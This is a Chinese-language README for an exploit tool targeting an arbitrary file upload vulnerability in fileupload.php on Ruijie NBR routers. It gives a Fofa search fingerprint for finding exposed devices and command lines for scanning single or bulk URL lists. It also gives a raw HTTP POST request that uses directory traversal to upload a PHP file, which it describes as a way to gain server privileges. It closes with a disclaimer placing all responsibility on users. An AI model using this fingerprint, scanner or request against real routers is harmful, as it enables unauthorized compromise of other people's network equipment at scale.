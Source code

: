 # 锐捷 NBR 路由器 fileupload.php 任意文件上传

锐捷 NBR 路由器 fileupload.php文件存在任意文件上传漏洞，攻击者可利用该漏洞获取服务器权限。

## Fofa指纹

app="Ruijie-NBR路由器"

## 工具利用

python3 Ruijie-NBR_upload.py -u http://127.0.0.1:1111 单个url测试

python3 Ruijie-NBR_upload.py -f url.txt 批量检测

扫描结束后会在当前目录生成存在漏洞url的vuln.txt

poc：
![](./poc.jpg)

## exp

```
POST /ddi/server/fileupload.php?uploadDir=../../test&name=c0nfig.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.1360.23 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Disposition: form-data; name="file"; filename="111.php"
Content-Type: image/jpeg
Content-Length: 8

qaxnb123
```
![](./exp.jpg)


## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
